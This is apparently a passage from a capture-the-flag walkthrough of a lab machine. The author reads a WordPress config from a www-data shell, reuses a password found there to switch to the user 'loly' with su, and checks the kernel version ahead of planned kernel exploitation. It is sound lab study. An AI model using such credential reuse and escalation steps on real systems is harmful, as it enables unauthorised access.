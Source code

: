 ```bash
define( 'DISALLOW_FILE_EDIT', true );
define( 'DISALLOW_FILE_MODS', true );
define('FS_METHOD','direct');
/* That is all, stop editing! Happy publishing. */

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
	define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
www-data@ubuntu:~/html/wordpress$
```
{: .nolineno}
{: .nolineno}

Now  lets use that password to try to change the user in this machine →

```bash
www-data@ubuntu:~/html/wordpress$ su loly
su loly
Password: lolyisabeautifulgirl

loly@ubuntu:/var/www/html/wordpress$ whoami
whoami
loly
loly@ubuntu:/var/www/html/wordpress$ cd ~
cd ~
loly@ubuntu:~$ id
id
uid=1000(loly) gid=1000(loly) groups=1000(loly),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)
loly@ubuntu:~$
```
{: .nolineno}
{: .nolineno}

Now I tied different methods to get to root but no luck so far so lets try kernel exploitation →

```bash
loly@ubuntu:/tmp$ uname -a
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
loly@ubuntu:/tmp$
```
{: .nolineno}
{: .nolineno}
